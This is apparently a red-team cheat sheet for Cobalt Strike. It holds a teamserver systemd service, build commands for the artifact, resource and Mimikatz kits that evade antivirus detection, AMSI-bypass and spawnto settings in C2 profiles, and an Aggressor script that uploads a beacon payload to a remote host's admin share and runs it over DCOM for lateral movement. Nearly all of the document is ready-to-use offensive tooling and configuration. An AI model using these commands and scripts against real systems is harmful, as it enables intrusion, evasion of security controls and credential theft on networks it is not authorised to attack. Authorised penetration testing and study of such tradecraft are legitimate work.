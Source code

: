 # Cobalt Strike Cheat-Sheet

### TeamServer service
```
[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile

[Install]
WantedBy=multi-user.target
```

## Commands

### Bypass CLM
```
powerpick <PS COMMAND>
```

## Kits

### On-disk detections (artifact kit)
* Obfuscate EXEs and DLLs
```
 ./build.sh pipe VirtualAlloc 277492 5 false false /mnt/c/Tools/cobaltstrike/artifacts
```

### In-Memory detections (resource kit)
```
./build.sh /mnt/c/Tools/cobaltstrike/resources
```

### AMSI Bypasses
* amsi_disable only applies to powerpick, execute-assembly and psinject.
```
powerpick <PS COMMAND>
```
* C2 Profile
```
post-ex {
        set amsi_disable "true";
}
```
* Check C2 profiles modifications
```
./c2lint c2-profiles/normal/webbug.profile
```

### Behaviour detections
* Change the process that cobaltstrike runs for fork&run
* Within beacon (reset with ```spawnto```)
```
spawnto x64 %windir%\sysnative\notepad.exe
spawnto x86 %windir%\syswow64\notepad.exe
```
* Change psexec spawn process
```
ak-settings spawnto_x64 C:\Windows\System32\notepad.exe
ak-settings spawnto_x86 C:\Windows\System32\notepad.exe
```
* Edit c2-profile
```
post-ex {
        set amsi_disable "true";

        set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
        set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
}
```

### Mimikatz kit (Windows 11 update mimikatz)
```
./build.sh /mnt/c/Tools/cobaltstrike/mimikatz
```

### Invoke-DCOM.cna
```
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command1
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");

    # read in the script
    $handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
    $script = readb($handle, -1);
    closef($handle);

    # host the script in Beacon
    $oneliner = beacon_host_script($1, $script);

    # generate stageless payload
    $payload = artifact_payload($3, "exe", "x64");

    # upload to the target
    bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);

    # run via powerpick
    bpowerpick!($1, "Invoke-DCOM -ComputerName  $+  $2  $+  -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

    # link if p2p beacon
    beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```

